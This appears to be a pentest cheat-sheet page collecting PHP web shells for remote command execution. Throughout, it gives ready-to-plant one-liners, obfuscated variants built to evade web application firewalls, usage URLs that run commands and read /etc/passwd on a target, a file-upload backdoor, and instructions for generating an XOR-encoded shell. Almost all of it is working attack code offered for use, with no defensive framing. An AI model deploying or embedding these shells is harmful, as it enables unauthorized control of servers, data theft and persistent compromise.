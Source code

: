 ```yaml
---
description: Several list of simple and obfuscate PHP shell
icon: php
---
```


# Simple PHP Webshell

### Simple PHP Webshell

#### Simple HTTP Requests GET Method Shell

```
<?=`$_GET[0]`?>

[*] Usage: http://target.com/path/to/shell.php?0=command
```

#### Simple HTTP Requests POST Method Shell

```
<?=`$_POST[0]`?>

[*] Usage: curl -X POST http://target.com/path/to/shell.php -d "0=command"
```

#### Support GET and POST Requests Method

```
<?=`{$_REQUEST['_']}`?>

[*] Usage:
 - http://target.com/path/to/shell.php?_=command
 - curl -X POST http://target.com/path/to/shell.php -d "_=command"
```

### Simple Obfuscated PHP Web Shell

#### Obfuscated PHP Web shell Example

```
<?=$_="";$_="'";$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`?>

[*] Usage: http://target.com/path/to/shell.php?0=command
[*] Note: This is obfuscation of <?=`$_GET[0]`?>
```

#### Non-alphanumeric obfuscation PHP Web Shell

```php
<?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?> <?=${'_'.$_}["_"](${'_'.$_}["__"]);?>

[*] Usage: http://target.com/path/to/shell.php?_=function&__=argument
[*] E.g.: http://target.com/path/to/shell.php?_=system&__=ls
```

#### Another Example Obfuscation of Simple PHP Webshell

```php
<?php $_=${'_'.('{{{' ^ '<>/')};$_[0]($_[1]); ?>
<?php $_=${'_'.('{'^'<').('{'^'>;').('{'^'/')};$_[0]($_[1]); ?>

[*] Usage: http://target.com/path/to/shell.php?0=function&1=argument
[*] E.g.: http://target.com/path/to/shell.php?0=system&1=ls
```

**in case if some functions like system,exec,etc. are disabled we can use var\_dump or print\_r for print output some function:**

```php
<?php $_=${'_'.('{{{' ^ '<>/')};$_[0]($_[1]($_[2])); ?>
<?php $_=${'_'.('{'^'<').('{'^'>;').('{'^'/')};$_[0]($_[1]($_[2])); ?>

[*] Usage: http://target.com/path/to/shell.php?0=function1&1=function2&2=argument
[*] E.g.:
    - http://target.com/path/to/shell.php?0=var_dump&1=scandir&2=.
    - http://target.com/path/to/shell.php?0=print_r&1=file_get_contents&2=/etc/passwd
```

#### Without Space Obfuscation PHP Web Shell

```php
<?=$_=${'_'.('{{{'^'<>/')};$_[0]($_[1]);?>

[*] Usage: http://target.com/path/to/shell.php?0=function&1=argument
[*] E.g.: http://target.com/path/to/shell.php?0=system&1=ls
```

**in case if some functions like system,exec,etc. are disabled we can use var\_dump or print\_r for print output some function:**

```php
<?=$_=${'_'.('{{{'^'<>/')};$_[0]($_[1]($_[2]));?>

[*] Usage: http://target.com/path/to/shell.php?0=function1&1=function2&2=argument
[*] E.g.: http://target.com/path/to/shell.php?0=print_r&1=glob&2=*
```

#### Without Space and Non-alphanumeric Obfuscation PHP Web Shell

```php
<?=$_=${'_'.('{{{'^'<>/')};$_['__']($_['___']);?>

[*] Usage: http://target.com/path/to/shell.php?__=function&___=argument
[*] E.g.: http://target.com/path/to/shell.php?__=system&___=ls
```

**in case if some functions like system,exec,etc. are disabled we can use var\_dump or print\_r for print output some function:**

```php
<?=$_=${'_'.('{{{'^'<>/')};$_['__']($_['___']($_['____']));?>

[*] Usage: http://target.com/path/to/shell.php?__=function1&___=function2&____=argument
[*] E.g.: http://target.com/path/to/shell.php?__=var_dump&___=scandir&____=/
```

### PHP Uploader

{% code overflow="wrap" %}
```php
<?php echo php_uname();echo '<br>';
echo '<br>';echo '<form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader">';echo '<input type="file" name="file" size="50"><input name="_upl" type="submit" id="_upl" value="Upload"></form>';if( $_POST['_upl'] == "Upload" ) {if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo '<b>Uploaded</b><br><br>'; }else { echo '<b>Upload Failed !!!</b><br><br>'; }}?>
```
{% endcode %}

### XOR Shell

Encoder PHP webshell to bypass WAF using XOR operations.

```bash
git clone https://github.com/GgBoom-993/xorshell
cd xorshell/
python3 xorshell.py -m GET -p cmd -o asuka.php

### access
http://localhost:8000/asuka.php?cmd=system('id');
```

### PHP Obfuscator

* [https://www.gaijin.at/en/tools/php-obfuscator](https://www.gaijin.at/en/tools/php-obfuscator)

### Reference

* [https://github.com/bayufedra/Tiny-PHP-Webshell](https://github.com/bayufedra/Tiny-PHP-Webshell)
* [https://github.com/lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF)
